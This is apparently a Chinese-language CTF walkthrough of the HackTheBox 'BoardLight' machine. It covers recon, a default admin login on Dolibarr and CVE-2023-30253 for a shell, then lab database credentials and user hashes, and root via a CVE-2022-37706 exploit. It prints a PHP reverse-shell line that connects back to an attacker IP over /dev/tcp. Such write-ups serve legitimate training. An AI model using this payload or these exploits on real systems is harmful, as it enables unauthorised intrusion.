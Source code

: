 ```yaml
---
title: "HTB-BoardLight"
date: 2024-09-04
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
nmap -A -O boardlight.htb
```

![](./images/image-43.png)

开放端口：`22、80`

Server：`Apache 2.4.41 (Ubuntu)`

### Dirsearch

```
dirsearch  -u boardlight.htb -t 50
```

![](./images/image-44.png)

### Subdomain Fuzzing

![](./images/image-45.png)

在页尾发现一个：`Board.htb`

修改 `/etc/hosts`

![](./images/image-46.png)

```
ffuf -w main.txt -u http://board.htb -H "Host:FUZZ.board.htb" -ac
```

![](./images/image-47.png)

获得子域名：`crm`

并且更新 `/etc/hosts`

## Weak Auth

进入`crm.board.htb`

![](./images/image-48.png)

用户名密码：`admin`，`admin`

![](./images/image-49.png)

## CVE-2023-30253

**Github**：[dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)

![](./images/image-50.png)

添加站点以及页面

![](./images/image-51.png)

尝试修改源码，回显成功

![](./images/image-52.png)

![](./images/image-53.png)

```
<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.16.8/100 0>&1'"); ?>
```

![](./images/image-54.png)

拿到shell

![](./images/image-55.png)

这里使用python脚本来简化。

![](./images/image-56.png)

![](./images/image-57.png)

上传`linpeas.sh` ，并且执行

![](./images/image-58.png)

发现存在`3306`端口，并且在`conf`里找到登陆密码

![](./images/image-59.png)

```
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
```

查询`user`表

![](./images/image-60.png)

格式化一下

```
| rowid | entity | ref_employee | ref_ext | admin | employee | fk_establishment | datec               | tms                 | fk_user_creat | fk_user_modif | login    | pass_encoding | pass_crypted                                                                                       | pass_temp | api_key | gender | civility | lastname   | firstname | address | zip  | town | fk_state | fk_country | birth | birth_place | job | office_phone | office_fax | user_mobile | personal_mobile | email | personal_email | signature | socialnetworks | fk_soc | fk_socpeople | fk_member | fk_user | fk_user_expense_validator | fk_user_holiday_validator | idpers1 | idpers2 | idpers3 | note_public | note_private | model_pdf | datelastlogin       | datepreviouslogin    | datelastpassvalidation | datestartvalidity | dateendvalidity | iplastlogin   | ippreviouslogin | egroupware_id | ldap_sid | openid | statut | photo | lang | color | barcode | fk_barcode_type | accountancy_code | nb_holiday | thm | tjm | salary | salaryextra | dateemployment     | dateemploymentend   | weeklyhours | import_key | default_range | default_c_exp_tax_cat | national_registration_number | fk_warehouse |
|-------|--------|--------------|---------|-------|----------|------------------|---------------------|---------------------|---------------|---------------|----------|---------------|----------------------------------------------------------------------------------------------------|------------|---------|--------|----------|------------|-----------|---------|------|-------|----------|------------|-------|-------------|-----|--------------|------------|-------------|-----------------|-------|----------------|-----------|----------------|---------|--------------|---------|---------|---------------------------|---------------------------|---------|---------|---------|-------------|--------------|-----------|---------------------|----------------------|-----------------------|-------------------|-----------------|--------------|-----------------|---------------|----------|--------|--------|-------|-------|---------|----------------|------------------|-------------|-----|-----|---------|--------------|-------------------|---------------------|-------------|------------|---------------|----------------------|-------------------------------|--------------|
| 1     | 0      | NULL         | NULL    | 1     | 1        | 0                | 2024-05-13 13:21:56  | 2024-05-13 13:21:56  | NULL          | NULL          | dolibarr | NULL          | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm                                       | NULL       | NULL    | NULL   | NULL     | SuperAdmin | NULL      | NULL    | NULL | NULL  | NULL     | NULL       | NULL  | NULL        | NULL| NULL         | NULL       | NULL        | NULL            | NULL  | NULL           | NULL      | NULL           | NULL    | NULL         | NULL    | NULL   | NULL                      | NULL                      | NULL    | NULL    | NULL    | NULL        | NULL         | NULL      | 2024-05-15 09:57:04 | 2024-05-13 23:23:59  | NULL                  | NULL              | NULL            | 10.10.14.31  | 10.10.14.41     | NULL          | NULL     | NULL   | 1      | NULL  | NULL  | NULL    | NULL           | NULL             | NULL        | NULL| NULL| NULL    | NULL         | NULL               | NULL                | NULL        | NULL       | NULL          | NULL                 | NULL                          | NULL         |
| 2     | 1      | NULL         | NULL    | 0     | 1        | 0                | 2024-05-13 13:24:01  | 2024-05-15 09:58:40  | NULL          | NULL          | admin    | NULL          | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96                                       | yr6V3pXd9QEI | NULL    | NULL   | NULL     | admin      | NULL      | NULL    | NULL | NULL  | NULL     | NULL       | NULL  | NULL        | NULL| NULL         | NULL       | NULL        | NULL            | NULL  | NULL           | NULL      | NULL           | NULL    | NULL         | NULL    | NULL   | NULL                      | NULL                      | NULL    | NULL    | NULL    | NULL        | NULL         | NULL      | 2024-09-03 20:37:39 | 2024-09-03 20:04:27  | NULL                  | NULL              | NULL            | 10.10.16.8   | 10.10.16.24     | NULL          | NULL     | NULL   | 1      | NULL  | NULL  | NULL    | NULL           | NULL             | NULL        | NULL| NULL| NULL    | NULL         | NULL               | NULL                | NULL        | NULL       | NULL          | NULL                 | NULL                          | NULL         |
```

这里我使用`hashcat`爆破失败，尝试将mysql的密码作为ssh的密码登录成功，并且得到`user.txt`。

![](./images/image-62.png)

`sudo -l` ，并没有特殊权限的文件。

## CVE-2022-37706

Github：[MaherAzzouzi/CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)

在`Files with Interesting Permissions` ，里发现一个`enlightenment`的东西

![](./images/image-63.png)

将`exploit.sh` ，下载下来执行，获取到root权限。

![](./images/image-65.png)

## Summary

端口扫描、子域名扫描、目录扫描是标准的前置过程。

针对网站细节信息进行搜集获取CVE。

Linpeas暴露出的特殊权限的文件。

Hashcat不一定能够爆破出正确的明文。

